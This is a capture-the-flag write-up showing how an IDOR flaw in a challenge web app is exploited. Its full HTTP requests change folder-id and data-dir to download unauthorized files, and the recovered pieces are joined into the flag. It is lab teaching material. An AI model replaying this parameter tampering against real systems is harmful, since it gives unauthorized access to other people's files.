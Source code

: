# Medusom [part 1] - Write up

I don't have screenshots for this challenge, (I'm sorry 😥) so I will try my best to explain it !

For this challenge, we need to attack a website to download some data that we are not authorized to see. <br>
To do that, we will exploit an IDOR (Insecure Direct Object Reference).

When we click on "download" for an authorized file, a POST request with several parameters is made :
- <strong>explorer</strong>
- <strong>file-download</strong> #boolean : we give it the value "true" for download a file
- <strong>folder-id</strong> #the id of the folder
- <strong>data-dir</strong> #the file we're interested in

```
POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md
```

Just after that, a GET request is made with the same parameters :

```
GET /ajax/listing-post?file-download=true&folder-id=1&data-dir=airbus%2FAIRBUS_INTELLIGENCE%2Fdetails.md HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/mWeqC0lstvYVFQ5Xuy8igsxa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

To exploit the vulnerability, we just need to change the folder-id and the data-dir parameters to download the files of our choice 😀

<br>

The files that we want to download are in the folder id 11 and their names are :
<strong>
- flag.txt
- NOTES.txt
- map.png
- NOTES.txt
- RECAP.pdf
- requests
- Skiblili.odt
- code.zip
- ._lock.Skiblili.odt#
</strong>


We are going to download them one by one, by modifying the value of the folder-id parameter by <em>11</em> and the value of the data-dir parameter by the different filenames that I wrote.

So for the requests, we will have something like that for all the files we want :

```
POST :

POST /ajax/listing-post HTTP/1.1
Host: 141.94.222.142:57411
Content-Length: 95
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close

explorer=true&file-download=true&folder-id=11&data-dir=PATH\TO\FILE.txt

GET :

GET /ajax/listing-post?file-download=true&folder-id=11&data-dir=PATH\TO\FILE.txt HTTP/1.1
Host: 141.94.222.142:57411
Referer: http://141.94.222.142:57411/post/O7PO1YC3aWIFBijpFqM8pvAzEBgY0IKDuSp
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: SESSID=a784e25bbdb1b4c8c680adfe5b374c761ab54bfe4b933512745d00dc3263a7c0
Connection: close
```

There is however one subtility for the file <strong><em>._lock.Skiblili.odt#</em></strong> :<br>

Because of the <strong>#</strong> at the end of the filename, we first need to URL encode it :

![Sans titre](https://user-images.githubusercontent.com/66923124/164997569-897b07e5-400a-4e32-94ed-0c3cfcefa661.png)

<strong>So data-dir=%2e%5f%6c%6f%63%6b%2e%53%6b%69%62%6c%69%6c%69%2e%6f%64%74%23 for this file </strong>

<br>

After we downloaded all the files, we need to read them !

![files](https://user-images.githubusercontent.com/66923124/164997733-47d0c367-2178-48e8-a2b0-e68fcf607662.png)

<strong>flag.txt is a troll :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997796-463f9c60-ab16-4ea8-97be-16ccb870b5a0.png)

<strong>NOTES.txt is the first part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997815-b8a93a20-385d-491a-83b6-af6ee43f7751.png)

<strong>RECAP.pdf is the second part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997851-8f7769aa-17f8-4882-8805-5f3340df89a4.png)

<strong>map.png is the third part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997888-f01220d6-857f-491a-98ef-68c60460747d.png)

<strong>In code.zip, there is a file named code.txt, which is the last part of the flag :</strong>

![Sans titre](https://user-images.githubusercontent.com/66923124/164997950-abce7f23-85d7-42f0-b2e5-722f40e6dd6f.png)


After we concatenate all the four strings we obtain the flag :

<strong> FLAG : MCTF{1D0R_f0r_th3_w1n} </strong>
